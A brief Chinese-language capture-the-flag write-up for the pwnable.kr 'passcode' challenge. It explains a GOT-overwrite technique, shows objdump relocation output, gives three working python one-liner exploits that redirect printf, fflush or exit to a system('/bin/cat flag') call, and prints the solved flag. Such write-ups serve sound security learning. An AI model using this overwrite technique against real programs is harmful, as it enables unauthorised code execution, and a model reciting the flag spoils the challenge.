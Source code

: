 ### passcode

`ssh passcode@pwnable.kr -p2222`

1. 看到passcode1的地方有一个任意地址写，第一反应是写返回地址，但不可行，原因是 **栈地址随机，需要info leak**
2. 所以需要去写一个不变的东西，这里选择写GOT表中被调用过的function，例如printf,fflush,exit，将其写为 **system(/bin/cat flag)** 的值

新学了一个命令来查看GOT表：`objdump -R file`

```
passcode@ubuntu:~$ objdump -R passcode

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

可以看到`printf`,`fflush`,`exit`的offset而且下文有对这几个函数的调用，可以写出3个exp，即在GOT表写入0x080485E3。

exp:
```
python -c 'print "A"*96 + "\x00\xa0\x04\x08" + "134514147\n"' | ./passcode
python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "134514147\n"' | ./passcode
python -c 'print "A"*96 + "\x18\xa0\x04\x08" + "134514147\n"' | ./passcode
```

flag:
`Sorry mom.. I got confused about scanf usage :(`
